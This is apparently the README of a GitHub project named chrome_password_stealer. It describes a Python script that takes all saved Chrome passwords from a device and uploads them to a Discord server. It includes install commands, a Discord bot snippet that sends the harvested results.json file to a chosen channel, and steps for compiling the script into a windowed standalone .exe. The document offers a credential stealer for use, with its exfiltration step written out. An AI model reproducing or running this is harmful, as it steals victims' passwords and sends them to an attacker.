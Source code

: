 
# chrome_password_stealer
This python script steals all the chrome password stored in a device ans uploads them into a discord server
## instalation
Download or clone the repository and eecute this command to install all dependencies, if you want to compile to a exe file you will need to install pyinstaller too.
```bash
pip install -r requirements.txt
pip install pyinstaller
```
Before running the code you need to set up some variables
```bash
    @bot.event
    async def on_ready():#when the bot is ready sends the results file to the discord channel
        channel = bot.get_channel("YOUR CHANEL ID")
        if channel:
            await channel.send(file=discord.File('results.json'))
        await bot.close()
    bot.run('YOUR BOT TOKEN') 
```
You need to replace YOUR BOT TOKEN with your actual bot token from discord and YOUR CHANEL ID with the actual chanel id also from discord.

To compile to a .exe file run this command where the chrome.py file is stored
```bash
pyinstaller --onefile --windowed chrome.py
```
## Discord setup
First you need to enable the developer mode for discord. To do so you need to acces the configuration then advanced and enable the developer mode 